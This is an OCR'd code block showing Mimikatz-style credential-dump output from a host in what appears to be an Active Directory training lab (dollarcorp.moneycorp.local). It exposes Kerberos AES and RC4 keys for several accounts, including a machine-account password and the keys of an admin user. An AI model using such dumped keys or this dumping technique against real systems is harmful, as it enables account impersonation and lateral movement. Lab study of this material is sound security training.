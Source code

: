 ```powershell
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8

Authentication Id : 0 ; 57471 (00000000:0000e07f)
Session           : Service from 0
User Name         : SQLTELEMETRY
Domain            : NT Service
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:51 AM
SID               : S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(?yWE8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41*/$^4+EeZ07?zF2Z3:[Jd*F/z_Pp6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754
Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DCORP-MGMT$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:46 AM
SID               : S-1-5-20

         * Username : dcorp-mgmt$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       b607d794f87ca117a14353da0dbb6f27bbe9fed4f1ce1b810b43fbb9a2eab192
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 6218420 (00000000:005ee2b4)
Session           : RemoteInteractive from 2
User Name         : mgmtadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:24:18 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1120

         * Username : mgmtadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       902129307ec94942b00c6b9d866c67a2376f596bc9bdcf5f85ea83176f97c3aa
           rc4_hmac_nt       95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old      95e2cd7ff77379e34c6e46265e75d754
           rc4_md4           95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_nt_exp   95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old_exp  95e2cd7ff77379e34c6e46265e75d754

Authentication Id : 0 ; 21275 (00000000:0000531b)
Session           : Interactive from 0
```